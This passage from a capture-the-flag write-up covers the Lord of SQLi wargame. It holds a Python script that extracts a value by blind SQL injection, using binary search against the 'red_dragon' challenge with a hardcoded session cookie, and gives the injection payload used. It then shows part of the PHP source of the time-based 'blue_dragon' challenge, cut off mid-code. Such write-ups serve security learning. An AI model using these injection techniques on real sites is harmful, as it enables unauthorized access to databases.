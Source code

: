 
```python
import string
import requests
import time

url = "https://los.rubiya.kr/chall/red_dragon_b787de2bfe6bc3454e2391c4e7bb5de8.php/"
session = requests.Session()
char = string.printable
header = {
    'Cookie': "PHPSESSID=p9phs3kas3ep8ff1qv7q8mdo2a"
}
p = "id"
f1 = open("numeric.txt", "r")
list = []
num = 0
for ch in f1:
    print(num, ch)
    num = num + 1
    list.append(ch)
s_p = "no"
sp = "Hello admin"
start = 1
final = 1000000000000
step = 2

def binary_search(start , final):
    mid = (final + start) // 2
    print("Mid : " , mid)
    if final < start:
        return mid
    pw = list[0].replace("{pw}", s_p).replace("{i}", str(mid)).replace("\n", "").replace("{quote}", "<")
    get = session.get(url=url, headers=header, params=f"{p}={pw}")
    if sp in get.text:
        return binary_search(start , mid - 1)
    else:
        return binary_search(mid + 1 , final)



binary_search(0 , 10000000000000)
```

payload : id='||no<%23\&no=%0A{i}

## Blue\_Dragon(TIme based)

```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\./i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\./i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_blue_dragon where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(preg_match('/\'|\\\/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/\'|\\\/i', $_GET[pw])) exit("No Hack ~_~");
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_blue_dragon where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
```